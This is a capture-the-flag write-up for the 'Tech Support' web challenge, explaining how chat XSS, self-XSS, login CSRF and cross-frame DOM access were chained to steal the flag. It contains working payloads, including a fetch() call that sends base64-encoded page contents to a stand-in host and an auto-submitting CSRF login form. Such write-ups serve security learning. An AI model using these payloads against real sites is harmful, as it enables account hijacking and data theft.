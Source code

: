 # TECH SUPPORT - 90 solves

## Story

Try chatting with tech support about getting a flag.


## Solution

The challenge has 8 routes: 
* `/`
* `/me`
* `/flag`
* `/logout`
* `/login`
* `/about`
* `/chat`
* `/register`

Flag is at `/flag` route and only the chat support user has access to the flag. 

### Part 1 - XSS in chat window

There is chat functionality on website that lets you to chat with support user. To start chat you can request chat with a reason and the reason request is vulnerable to xss.

However the XSS will trigger on an iframe which is on another domain `typeselfsub-support.web.ctfcompetition.com` and we are unable to access parent window directly due to [Same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)

### Part 2 - SELF XSS in `/me` route

We can set address for our profile and it's also vulnerable to XSS. However we are not sure if admin has this functionality or not.


### Part 3 - CSRF in `/login` route

There are no csrf protection in `/login` route so we can login anybody to our controlled accout with CSRF.

> Session cookies same-site attribute is set to `none` So we can easily perform CSRF.

### Part 4 - The fact about frames

Consider this situation, `website-1` opens 2 frames to `website-2`. The html code would be something like this:

```html
<!-- website-1 -->
<body>
    <iframe src="//site2.com/page1.html"> 
    </iframe>
    <iframe src="//site2.com/page2.html"> 
    </iframe>
</body>
```

now in `//site2.com/page2.html` we can access `//site2.com/page1.html` dom with this code:

```html
<body>
<script>
let dom = window.top.frames[0].document
</script>
</body>
```

###  Part 5 - Chainging all together

I used [webhook.site](https://webhook.site) which is free to host my payload but you can solve this without hosting the payload anywhere but you will need to do some changes to payload.

First we need to put a xss payload in our profile page that steals flag page's body. I used this:

`<script>fetch('https://yourwebsite/?a='+encodeURIComponent(btoa(FLAGFRAME.document.body.innerHTML)))</script>`

In my payload, the `FLAGFRAME` is `top.frames[0].frames[0].frames[0]`

Now we have to construct our payload.
First we open frame to flag so we can access to it later.

```html
<iframe id="flag" src="https://typeselfsub.web.ctfcompetition.com/flag">
</iframe> 
```
Then we open frame to perform CSRF to login with our login credentials.
```html
<iframe id="login" srcdoc='
 <form action="https://typeselfsub.web.ctfcompetition.com/login" name="fa" method="POST"> 
  <input name="username" value="USERNAME"> 
  <input name="password" value="PASSWORD"> 
  <input name="csrf">
 </form> 
'>
</iframe> 
```
And finally the JS
```
<script> 
flag.onload=function(){
    login.contentWindow.document.forms[0].submit();  
}      
</script> 
```

You can find final payload at `index.html`

### Part 6 - Get flag

To get the flag, We send iframe to embed our payload.

```
<iframe src="//hosting.com/payload_index.html">
</iframe>
```

Then you will receive flag page's body in base64 format.


> Flag: CTF{self-xss?-that-isn't-a-problem-right...}
